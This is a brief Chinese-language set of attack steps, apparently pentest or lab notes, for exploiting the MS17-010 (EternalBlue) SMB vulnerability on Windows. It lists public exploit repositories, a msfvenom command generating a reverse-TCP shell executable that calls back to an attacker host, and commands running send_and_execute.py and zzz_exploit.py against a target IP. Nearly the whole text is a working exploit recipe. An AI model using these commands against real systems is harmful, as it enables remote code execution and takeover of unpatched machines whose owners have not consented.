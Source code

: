 ### 攻击步骤

下载工具

```bash
https://github.com/helviojunior/MS17-010.git
https://github.com/3ndG4me/AutoBlue-MS17-010
```

生成反弹shell：

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > ms17–010.exe
```

攻击：

```bash
python send_and_execute.py <IP> ./ms17–010.exe
python zzz_exploit.py <IP>
```
